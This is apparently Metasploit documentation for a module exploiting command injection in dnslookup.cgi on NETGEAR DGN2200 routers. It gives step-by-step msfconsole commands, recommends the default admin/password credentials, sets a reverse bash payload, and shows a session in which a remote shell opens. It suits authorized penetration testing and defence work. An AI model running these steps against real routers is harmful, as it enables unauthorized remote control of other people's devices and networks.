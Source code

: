 ## Vulnerable Application

  NETGEAR DGN2200v1, DGN2200v2, DGN2200v3, DGN2200v4 routers

## Verification Steps

  1. start `msfconsole`
  2. `use exploit/linux/http/netger_dnslookup_cmd_exec`
  3. `set RHOST 192.168.1.1` `<--- Router IP`
  4. `set USERNAME xxxx` (see [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PASSWORD xxxx` (see [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PAYLOAD cmd/unix/reverse_bash`
  6. `set LHOST 192.168.1.x`
  7. `set LPORT xxxx`
  8. `run`
  9. Get a session

## Options

  **USERNAME**

  The `USERNAME` option sets the username to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default username for NETGEAR Routers is `admin`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
  
  **PASSWORD**
  
  The `PASSWORD`options sets the password to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default password for NETGEAR Routers is `password`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
## Advanced Options
  
  **HOSTNAME**
  
  The request is went with a `host_name` POST parameter. This option sets this parameter. 
  The default is `www.google.com`. The reason for the parameter is that the file that this
  vulnerability is located in (`dnslookup.cgi`) actually needs a domain to resolve, or else 
  the injection won't work.
  

## Scenarios

  What it should look like against a vulnerable router.

  ```
msf > use exploit/linux/http/netgear_dnslookup_cmd_exec 
msf exploit(netgear_dnslookup_cmd_exec) > options

Module options (exploit/linux/http/netgear_dnslookup_cmd_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username to authenticate with
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   NETGEAR DDGN2200 Router


msf exploit(netgear_dnslookup_cmd_exec) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netgear_dnslookup_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(netgear_dnslookup_cmd_exec) > set PASSWORD password
PASSWORD => password
msf exploit(netgear_dnslookup_cmd_exec) > run

[*] Started reverse TCP double handler on 192.168.1.9:4444 
[+] Router is a NETGEAR router (DGN2200v1)
[*] Sending payload...
[*] Command shell session 1 opened (192.168.1.9:4444 -> 192.168.1.9:53352) at 2017-03-02 19:36:47 -0500
```
  
